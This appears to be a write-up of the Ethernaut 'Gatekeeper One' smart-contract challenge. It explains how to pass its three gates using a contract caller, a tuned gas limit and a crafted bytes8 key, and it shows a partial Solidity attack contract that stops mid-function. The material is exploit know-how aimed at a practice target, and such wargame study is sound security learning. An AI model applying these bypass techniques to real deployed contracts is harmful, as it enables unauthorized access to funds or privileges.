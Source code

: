 ## 13. Gatekeeper One
This level is probably the most challenging so far since you'll need to be able to pass 5 conditional checks to be able to register as an entrant.

1. The workaround to `gateOne` is to initiate the transaction from a smart contract since from the victim's contract pov, `msg.sender` = address of the smart contract while `tx.origin` is your address.
2. `gateTwo` requires some trial and error regarding how much gas you should use. The simplest way to do this is to use `.call()` because you can specify exactly how much gas you want to use. Once you've initiated a failed transaction, play around with the remix debugger. Essentially you want to calculate the total cost of getting to exactly the point prior to the `gasleft()%8191 == 0`. For me, this is 254 gas so to pass this gate, I just needed to use a gas limit of some multiple of 8191 + 254 e.g. 8191 * 100 + 254 = 819354.
3. To solve `gateThree`, play around with remix while using [this](https://www.tutorialspoint.com/solidity/solidity_conversions.htm) to help you better understand what gets truncated when doing explicit casting. If you know how to do bit masking, this gate should be a piece of cake for you!


```
pragma solidity ^0.8.0;


contract AttackGatekeeperOne {
    address public victim;

    constructor(address _victim) public {
        victim = _victim;
    }

    // require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
    // require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
    // require(uint32(uint64(_gateKey)) == uint16(tx.origin), "GatekeeperOne: invalid gateThree part three");

    function part1(bytes8 _gateKey) public pure returns(bool) {
        // Downcasting from a bigger uint to a smaller uint truncates from the left
        // so going from uint64 to uint16 will remove the first 12 characters.
        // For this to pass, we need to ensure that characters 9-12 are 0s
        // So for example, something like 0000000000001234 will work since
        // it'll compare 00001234 with 1234
        return uint32(uint64(_gateKey)) == uint16(uint64(_gateKey));
    }

    function part2(bytes8 _gateKey) public pure returns(bool) {
        // This is saying that the truncated version of the _gateKey cannot match the original
        // e.g. Using 0000000000001234 will fail because the return values for both are equal
        // However, as long as you can change any of the first 8 characters, this will pass e.g. 1122334400001234
        return uint32(uint64(_gateKey)) != uint64(_gateKey);
    }

    function part3(bytes8 _gateKey) public view returns(bool) {
        // _gateKey has 16 hexidecimal characters
        // uint16(msg.sender) truncates everything else but the last 4 characters of your address (for mine, it's BeC2)
        // The rest is the same as part 1 so this function will return true for any _gateKeys with the value
        // 0x********0000BeC2 where * represents any hexidecimal characters (0-f) except 0000
        return uint32(uint64(_gateKey)) == uint16(uint160(address(msg.sender)));
    }

    function enter(bytes8 _key) public returns(bool) {
```